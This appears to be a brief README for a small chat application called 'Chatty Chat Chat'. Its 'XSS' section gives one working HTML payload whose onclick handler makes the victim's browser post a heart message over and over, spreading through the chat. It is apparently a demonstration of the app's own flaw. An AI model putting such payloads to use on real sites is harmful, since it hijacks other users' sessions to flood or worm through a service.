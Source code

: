 # Chatty Chat Chat

Except for initial boilerplate and some cleanup written in an hour.

## XSS

```html
<b onclick="function t() {document.getElementById('new-message-input').value = '❤️'; document.getElementById('send').click(); setTimeout(t, 1000);} t();">❤️</b>
```
